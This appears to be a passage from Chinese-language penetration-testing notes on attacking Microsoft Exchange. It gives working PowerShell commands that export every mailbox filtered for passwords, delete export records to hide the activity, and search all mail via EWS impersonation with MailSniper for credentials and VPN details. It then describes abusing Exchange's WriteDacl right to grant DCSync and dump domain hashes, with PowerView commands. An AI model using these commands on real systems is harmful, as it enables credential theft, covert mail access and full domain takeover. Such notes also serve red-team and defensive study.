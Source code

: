 ```
Get-Mailbox -OrganizationalUnit Users -Resultsize unlimited |%{New-MailboxexportRequest -Mailbox $_.name -CompletedRequestAgeLimit 0 -ContentFilter {(body -like "*pass*")} -FilePath ("\\localhost\c$\test\"+($_.name)+".pst")}

# 删除导出记录，导出时不加 CompletedRequestAgeLimit 参数会留下导出记录
Get-MailboxExportRequest|Remove-MailboxExportRequest -Confirm:$false

# 搜索所有邮件，SearchQuery 只支持向后匹配，也可以匹配邮件其他位置比如收件人、发件人、CC 等
Get-Mailbox -OrganizationalUnit Users -Resultsize unlimited |%{Search-Mailbox -Identity $_.name -SearchQuery "pass*" -TargetMailbox "zhangsan" -TargetFolder "outAll" -LogLevel Suppress}
```

2. 通过 /EWS 查询

如果用户拥有 ApplicationImpersonation 角色则可以模拟其他用户登录 /EWS，进而通过 /EWS 编程实现搜索所有邮件的功能。在实战中，通常需要先用 Organization Management 组用户登录管理接口，给自己赋予这个角色，再通过 /EWS 搜索邮件。

这里修改了 MailSniper 脚本，优化授权生效时间、新增匹配附件名、优化输出内容、新增指定账密等：
```bash
# MailSniper.ps1
# 搜索所有邮件，需要提供管理员账号给用户授予 ApplicationImpersonation 权限
Invoke-GlobalMailSearch -Folder all -ImpersonationAccount enterprise_admin -ExchHostname win2012-ex2016.island.com -AdminUserName enterprise_admin -AdminPassword EA@123qwe -MailsPerUser 500 -Terms "*password*","*creds*","*credentials*","*测试*","*密码*","*拓扑*","*运维*","*VPN*","*账号*" -OutputCsv global-email-search.csv
```

---

### 攻击域管

#### ACL (已有 Exchange 服务器权限)

**描述**

在 Exchange 安装完后，域内会添加一个名为 Microsoft Exchange Security Groups 的 OU，其包括两个特殊的组：Exchange Windows Permissions 和 Exchange Trusted Subsystem，后者隶属于前者。所有的 Exchange 服务器都会加入 Exchange Trusted Subsystem 组，也就是 Exchange 服务器都继承了 Exchange Windows Permissions 组的权限，而该组拥有对域分区的 WriteDacl 权限，且可以继承。因此，在拿下 Exchange 服务器后，可以利用 Exchange 机器账户对域分区添加任意 ACL 进行提权，比如添加 Dcsync 权限导出域内所有 Hash。

**相关文章**
- [域渗透——使用Exchange服务器中特定的ACL实现域提权](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E4%BD%BF%E7%94%A8Exchange%E6%9C%8D%E5%8A%A1%E5%99%A8%E4%B8%AD%E7%89%B9%E5%AE%9A%E7%9A%84ACL%E5%AE%9E%E7%8E%B0%E5%9F%9F%E6%8F%90%E6%9D%83/)

**复现**

所有的 Exchange Server 都在 Exchange Windows Permissions 组里面, 而这个组默认就对域有 WriteACL 权限, 那么当我们拿下 Exchange 服务器的时候, 就可以尝试使用 WriteACL 赋予自身 Dcsync 的权限.

使用 powerview，为当前 exchange 机器名用户增加 dcsync 权限, 然后抓取 hash
- https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
    ```
    Import-Module ActiveDirectory
    Import-Module .\PowerView.ps1
    import-module .\Microsoft.ActiveDirectory.Management.dll
    Add-ADGroupMember -Identity "Exchange Trusted Subsystem" -Members test
    ```
